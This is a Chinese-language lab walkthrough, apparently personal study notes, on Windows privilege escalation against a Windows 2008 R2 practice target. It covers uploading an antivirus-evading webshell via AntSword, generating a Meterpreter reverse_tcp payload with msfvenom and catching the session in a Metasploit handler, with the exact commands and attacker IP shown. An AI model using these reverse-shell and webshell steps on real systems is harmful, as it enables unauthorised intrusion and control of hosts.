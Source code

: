 #Windows提权

例：Windows2008r2

配置vpn（如果不行可以还原快照，选择对应的vpn，输入账号密码）

![image-20210824205251309](Windows提权\image-20210824205251309.png)

kali中安装蚁剑（拖入linux版，连个文件解压，初始化，点位置选第二个文件夹，然后就可以运行了）

在kali中打开浏览器找到上传点，上传as免杀马，蚁剑链接![image-20210824205205278](Windows提权\image-20210824205205278.png)

上传cve文件![image-20210824205133060](Windows提权\image-20210824205133060.png)

现在msf中生成可以反弹的shell打开终端

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=5678 -f exe -o msf24.exe

![image-20210824210104475](Windows提权\image-20210824210104475.png)

![image-20210824210434053](Windows提权\image-20210824210434053.png)

退到主目录，右键打开终端运行 dir查看，whoami查看当前权限为web

![image-20210824210556320](Windows提权\image-20210824210556320.png)

打开监听端口，进入msf

use exploit/multi/handler

![image-20210824210906728](Windows提权\image-20210824210906728.png)

options查看配置

![image-20210824211103844](Windows提权\image-20210824211103844.png)

设置payload与之前上传的保持一致

设置

lhost  0.0.0.0 为全端口监听，也可以设置成自己的ip

 lport  刚才设置的端口

![image-20210824211415006](Windows提权\image-20210824211415006.png)

exploit  运行监听模块 

![image-20210824211601987](Windows提权\image-20210824211601987.png)

会话反弹回来了

![image-20210824211850910](Windows提权\image-20210824211850910.png)

sessions -i  查看会话

sessions 1  使用

![image-20210824212530201](Windows提权\image-20210824212530201.png)



![image-20210824212919070](Windows提权\image-20210824212919070.png)

![image-20210824213252858](Windows提权\image-20210824213252858.png)

![image-20210824213616273](Windows提权\image-20210824213616273.png)

![image-20210824213939019](Windows提权\image-20210824213939019.png)



















set payload windows/meterpreter/reverse_tcp
set lhost 172.16.12.171
set lport 4444

set exitonsession fasle

